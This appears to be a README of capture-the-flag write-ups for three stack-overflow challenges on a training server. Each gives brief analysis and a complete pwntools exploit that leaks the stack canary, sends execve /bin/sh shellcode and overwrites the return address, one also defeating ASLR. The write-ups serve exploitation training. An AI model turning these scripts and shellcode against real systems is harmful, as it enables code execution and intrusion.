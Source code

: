 # leakers ![c](https://img.shields.io/badge/solved-success)
### Analysis
This challenge is again on a *buffer overflow* vulnerability, as we can immediately see from the disassembled source code on ```Ghidra```. However, this time we can see through ```checksec ./leakers``` that a **canary** mitigation is enabled.

Btw we can easily bypass it by exploiting the fact that there is a printf in the code that, as we know, prints strings until it finds a null byte 0x00. Moreover, a canary typically starts with this null byte in order to XXXXXX.

### Exploit
With this knowledge we can send some A's and analyze the memory after this point with ```x /20gx *buffer_address*```, and notice the presence of the canary after 104 bytes. After leaking and receiving it we can fully exploit this.

First of all we send our shellcode in the first iteration of the loop, then we get the canary and after that we overwrite the Saved IP in order to jump to out code.
```python
from pwn import *
import time

context.terminal = ['tmux', 'splitw', '-h']
#ssh = ssh("acidburn", "192.168.56.103")
#r = ssh.process("./leakers")
#gdb.attach(r, """
#	b *0x000401200
#	c
#	""")

r = remote("training.jinblack.it", 2010)

input("wait")

shellcode = b"\xEB\x14\x5F\x48\x89\xFE\x48\x83\xC6\x08\x48\x89\xF2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05\xE8\xE7\xFF\xFF\xFF"
shellcode = shellcode + b"/bin/sh\x00" + b"\x00"*8

r.send(shellcode)
time.sleep(0.1)

r.send("A"*105)
time.sleep(0.1)
r.recvuntil("> ")
r.recv(105)
canary = u64(b"\x00" + r.recv(7))
print("0x%x" % canary)

wheretojump = 0x00404080

payload = b"A" * 104 + p64(canary) + b"B"*8 + p64(wheretojump)

r.send(payload)
time.sleep(0.1)

r.interactive()
```


# gonnaleak ![c](https://img.shields.io/badge/solved-success)
### Analysis
Non mi ricordo
### Exploit
```python
from pwn import *
import time

#context.terminal = ['tmux', 'splitw', '-h']
context.terminal = ['terminator', '-e']
#r = process("./gonnaleak")
#gdb.attach(r, """
#	c
#	""")

r = remote("training.jinblack.it", 2011)

input("wait")


shellcode = b"\xEB\x14\x5F\x48\x89\xFE\x48\x83\xC6\x08\x48\x89\xF2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05\xE8\xE7\xFF\xFF\xFF"
shellcode = shellcode + b"/bin/sh\x00" + b"\x00"*8
shellcode = shellcode.rjust(104, b"\x90")
#r.send(shellcode)
#time.sleep(0.1)

r.send("A"*(105))
time.sleep(0.1)
r.recvuntil("> ")
r.recv(105)
canary = u64(b"\x00" + r.recv(7))
print("0x%x" % canary)


r.send("A"*(136))
time.sleep(0.1)
r.recvuntil("> ")
r.recv(136)
wheretojump = u64(r.recv(6) + b"\x00"*2)
print("0x%x" % wheretojump)
wheretojump = wheretojump - 0x150
print("0x%x" % wheretojump)


#payload = b"A"*104 + p64(canary) + b"B"*8 + p64(wheretojump)
payload = shellcode + p64(canary) + b"B"*8 + p64(wheretojump)

r.send(payload)
time.sleep(0.1)

r.interactive()
```

# aslr ![c](https://img.shields.io/badge/solved-success)
### Analysis
Same procedure to get the canary.
Then because ASLR is enabled we have to calculate the offset (that is fixed) between an address in the stack
### Exploit
```python
from pwn import *
import time
'''
context.terminal = ['tmux', 'splitw', '-h']
r = process("./aslr")
gdb.attach(r, """
	c
	""")
'''
r = remote("training.jinblack.it", 2012)

shellcode = b"\xEB\x14\x5F\x48\x89\xFE\x48\x83\xC6\x08\x48\x89\xF2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05\xE8\xE7\xFF\xFF\xFF"
shellcode = shellcode + b"/bin/sh\x00" + b"\x00"*8
r.send(shellcode)
time.sleep(0.1)

r.send("B"*105)
time.sleep(0.1)
r.recvuntil("> ")
r.recv(105)
canary = u64(b"\x00" + r.recv(7))
print("canary 0x%x" % canary)

offset = 0x2005c0
r.send("A"*112)
time.sleep(0.1)
r.recvuntil("> ")
r.recv(112)
add = u64(r.recv(8) + b"\x00" + b"\x00") 
add = add + offset
payload = b"a"*104 + p64(canary) + b"b"*8 + p64(add)
r.send(payload)

r.interactive()
```
